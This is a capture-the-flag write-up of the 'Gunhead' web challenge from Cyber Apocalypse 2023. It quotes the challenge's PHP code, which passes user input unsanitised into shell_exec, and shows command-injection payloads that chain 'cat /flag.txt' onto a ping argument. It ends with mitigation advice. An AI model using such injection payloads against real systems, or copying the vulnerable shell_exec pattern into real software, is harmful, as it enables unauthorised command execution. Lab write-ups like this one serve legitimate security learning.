



# [Cyber Apocalypse 2023](index.md) - Web - Gunhead

> During Pandora's training, the Gunhead AI combat robot had been tampered with and was now malfunctioning, causing it to become uncontrollable. With the situation escalating rapidly, Pandora used her hacking skills to infiltrate the managing system of Gunhead and urgently needs to take it down.

As usual for web challenges, we are provided with a zip file with source code, and a spawnable docker container.



Looks like we're controlling a robot - cool.



We can toggle a "needs" box along the left, and a sliding-down-from-the-top-like-quake command terminal.



We've got some commands we can run - the main ones being `/ping` and `/storage`.

`/storage` gives us some general storage related info.

```
> /storage
Filesystem: /dev/sda1
Total Space: 20TB
Used Space: 14TB
Available Space: 6TB
Use Percentage: 70%
Mounted On: /
```

`/ping` seems to... actually ping things, so that's interesting.

```
PING 8.8.8.8 (8.8.8.8): 56 data bytes
> /ping 8.8.8.8
[+] Starting scan on 8.8.8.8
```

Lets take a look at the provided source code.

In this container's `Dockerfile`, we can see the flag getting copied into the container using the following two entries:

```dockerfile
# Copy flag
COPY flag.txt /flag.txt
RUN chmod 755 /flag.txt
```

`chmod 755` would mean that any user on the system can read it, including the `www` user that the web server (nginx in this case) is running as. If this was _actually_ a sensitive file, `755` is not a good choice here.

The rest of the code seems to be a fairly simple web application written in PHP (simple for a professional software developer I guess).

```php
$router = new Router();
$router->new('GET', '/', 'ReconController@index');
$router->new('POST', '/api/ping', 'ReconController@ping');
```
There is a an API route for the ping command, though not the storage command (which is probably imaginary for the sake of the challenge - fair enough).

Following the code to the `ReconController` file...

```php
class ReconController
{
    public function index($router)
    {
        return $router->view('index');
    }

    public function ping($router)
    {
        $jsonBody = json_decode(file_get_contents('php://input'), true);

        if (empty($jsonBody) || !array_key_exists('ip', $jsonBody))
        {
            return $router->jsonify(['message' => 'Insufficient parameters!']);
        }

        $pingResult = new ReconModel($jsonBody['ip']);

        return $router->jsonify(['output' => $pingResult->getOutput()]);
    }
}
```
We get some input from the user in json format specifying an ip address and pass it directly to a new `ReconModel`.
It's interesting that there is _absolutely no_ input sanitation or checking or anything here - it's just passing the input directly from the user to `ReconModel`... maybe there will be some security in there? (I won't hold my breath, this is a _very easy_ challenge).

```php
class ReconModel
{
    public function __construct($ip)
    {
        $this->ip = $ip;
    }

    public function getOutput()
    {
        # Do I need to sanitize user input before passing it to shell_exec?
        return shell_exec('ping -c 3 '.$this->ip);
    }
}
```
No sanity checks, and it takes whatever we type in and inserts it directly onto the end of a `ping` command, which it passes to `shell_exec` to run a ping on the underlying system.

In PHP, [shell_exec](https://www.php.net/manual/en/function.shell-exec.php):
> Execute command via shell and return the complete output as a string

We can probably just chain a command on the end of whatever we want to ping, and have it execute that as well. In Linux systems you can chain commands together in a number of ways:
 * `&&` can be used to run command sequentially from left to right. For example, `apt update && apt upgrade && apt autoremove` would run `apt update`, wait for it to finish, then run `apt upgrade`, wait for it to finish and then run `apt autoremove`. If a previous command fails, it will not process any further commands in the chain.
 * `|` can be used in the same way as `&&`, but it will pass the output from the previous command to the input of the next one. It will stop processing the chain if it encounters an error.
 * `;` can be used in the same way as `&&`, but it will not care about if a previous command is successful or not, and will _not_ pass output to the input of the next command.

Since we can use any command on the system, `cat` is a good choice - it will simply return the contents of a file in plain text, which is what we want to reveal the flag.

So, on the website, if we run the following command, we should get a flag:

```
/ping 8.8.8.8 && cat /flag.txt
```
```
PING 8.8.8.8 (8.8.8.8): 56 data bytes
> /ping 8.8.8.8 && cat /flag.txt
```
This doesn't seem to work - likely either the `ping` command itself is failing, or the `shell_exec` PHP function is confused when running `ping` because ping takes a while to actually finish - we never see the results of _any_ of the pings that it does, just that it's started doing them.

So, lets try `;`

```
/ping 8.8.8.8 ; cat /flag.txt
```

```
PING 8.8.8.8 (8.8.8.8): 56 data bytes
HTB{4lw4y5_54n1t1z3_u53r_1nput!!!}
> /ping 8.8.8.8 ; cat /flag.txt
```

Looks like this worked, and we can see it's returned the flag.

```
HTB{4lw4y5_54n1t1z3_u53r_1nput!!!}
```

## How could they have prevented this?
 * Do a sanity check on all user inputs
 * Never let user input of any kind go directly to the command line
 * Probably your web app doesn't need to ping things, that seems bad for a lot of reasons. Maybe if a hypothetical robot needed to do some kind of uptime check, hardcoding the address to ping might be better, rather than letting the user input something.
 * In this case, the web server was running as the `www` user, which shouldn't have access to sensitive files. Make sure the service account for your web server doesn't have access to sensitive files.